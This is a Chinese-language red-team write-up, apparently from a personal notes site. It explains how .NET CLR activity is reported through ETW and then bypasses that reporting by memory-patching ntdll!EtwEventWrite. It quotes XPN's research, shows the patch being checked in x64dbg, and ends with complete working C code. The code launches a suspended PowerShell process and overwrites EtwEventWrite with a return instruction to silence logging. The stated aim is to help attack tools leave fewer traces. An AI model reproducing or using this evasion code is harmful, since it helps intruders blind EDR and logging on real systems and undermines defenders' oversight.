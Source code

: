 # 基于内存补丁ETW的绕过

## 简介

通常在红队行动中，面临的最大挑战并不是诸如杀毒、EDR之类的防护软件，红队行动中工具&代码的杀毒绕过只是事前工作\(基本功\)，所以攻击者使用的工具&代码往往在本地就比较完备的完成了免杀工作，在这样的背景下，如何让工具尽可能少的留下痕迹就成为了红队成员首要解决的问题。

在cobaltstrike中实现了在非托管进程中加载托管代码的功能模块execute-assembly，而这个功能因为操作系统提供的API（ ICLRMetaHost[、](https://www.21ct.cc/)ICLRRuntimeInfo、ICLRRuntimeHost）在实现上并不复杂，但是这并不影响它的实用性。

## 技术原理

对于检测CLR进行的操作\(托管进程\)一种比较好的方法就是通过Windows事件跟踪（ETW\),虽然该功能最早是为了调试和监控性能引入的，但是这并不妨碍它成为监控execute-assembly等功能的行为操作。

如我们正常开启一个powershell\(属于托管进程\)，在进程加载过程中就会产生大量日志记录，我们可以通过processhacker，进行查看。

![](../.gitbook/assets/image%20%28125%29.png)

根据前人的研究结果，我们可以知道ETW是由用户空间ntdll.dll!EtwEventWrite发起的\(这里手动@xpn\)，这样我们对其绕过也能比较方便的实现。

> ### How does the CLR surface events via ETW? <a id="how-does-the-clr-surface-events-via-etw"></a>
>
> Hopefully by this point the goal is obvious, we need to stop ETW from reporting our malicious activity to defenders. To do this we first need to understand just how the CLR exposes its events via ETW.
>
> Let's take a look at `clr.dll` to try and see if we can spot the moment that an event is triggered. Loading the PDB and hunting for the `AssemblyDCStart_V1` symbol using Ghidra, we quickly land on the following method:

> ![](../.gitbook/assets/image%20%28116%29.png)

> Let's see if we can find the exact point that an event is generated reporting the Assembly load which we observed above with our ETW consumer. Dropping into WinDBG and setting a breakpoint on all `ntdll!EtwEventWrite` calls occurring after the `ModuleLoad` method above, we quickly discover the following where we can see our Assembly name of "test" is being sent:

> ![](../.gitbook/assets/image%20%28124%29.png)

> So this tells us 2 things. First, these ETW events are sent from userland, and second that these ETW events are issued from within a process that we control... And as we know, having a malicious process report that it is doing something malicious never ends well.

根据XPN大佬的研究结果，我们尝试patch ntdll!EtwEventWrite来验证结论是否正确，这里使用x64dbg和powershell来验证。

首先使用x64dbg创建一个powershell进程，这时x64dbg会在线程初始化前下一个断点。

定位到ntdll!EtwEventWrite。

![](../.gitbook/assets/image%20%28118%29.png)

一般windows api默认使用stdcall调用约定，即函数外平衡堆栈，以防万一我们确认一下，堆栈的平衡方式会决定我们的内存补丁写法。

![](../.gitbook/assets/image%20%28123%29.png)

这时我们使用一起BypassAmsi的方式在函数开头直接返回。

![](../.gitbook/assets/image%20%28119%29.png)

在processhacker中查看clr日志。

![](../.gitbook/assets/image%20%28120%29.png)

我们发现现在无法读取到任何日志。

## 代码

代码的话拿AMSI的随便改改就行。

由于ntdll在进程加载之初就已经导入，所以这里不需要短暂睡眠，直接挂起创建就行。

```text
#include <Windows.h>
#include <stdio.h>
#include <Tlhelp32.h>

DWORD WINAPI GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}

HANDLE WINAPI GetHandleByProcessId(DWORD dwProcessId, LPCTSTR lpszModule)

{

	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, 5424);

	if (hSnapshot != INVALID_HANDLE_VALUE) {
		MODULEENTRY32 pe32;
		pe32.dwSize = sizeof(MODULEENTRY32);
		Module32First(hSnapshot, &pe32);

		do
		{
			if (lstrcmpi(pe32.szModule, lpszModule) == 0)
			{
				CloseHandle(hSnapshot);
				return pe32.hModule;

			}
		} while (Module32Next(hSnapshot, &pe32));
	}
	CloseHandle(hSnapshot);
	return 0;

}

#include <Windows.h>
#include <stdio.h>
#include <Tlhelp32.h>
int main() {
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	CreateProcessA(NULL, (LPSTR)"powershell -NoExit", NULL, NULL, NULL, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
	LPVOID pEtwEventWrite = GetProcAddress(hNtdll, "EtwEventWrite");

	//Sleep(500);

	DWORD oldProtect;
	char patch = 0xc3;

	VirtualProtectEx(pi.hProcess, (LPVOID)pEtwEventWrite, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
	WriteProcessMemory(pi.hProcess, (LPVOID)pEtwEventWrite, &patch, sizeof(char),NULL);

	VirtualProtectEx(pi.hProcess, (LPVOID)pEtwEventWrite, 1, oldProtect, NULL); 
	ResumeThread(pi.hThread);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	//FreeLibrary(hNtdll);
	return 0;

}
```

![](../.gitbook/assets/image%20%28117%29.png)

## LINKS

{% embed url="https://blog.xpnsec.com/hiding-your-dotnet-etw/" %}




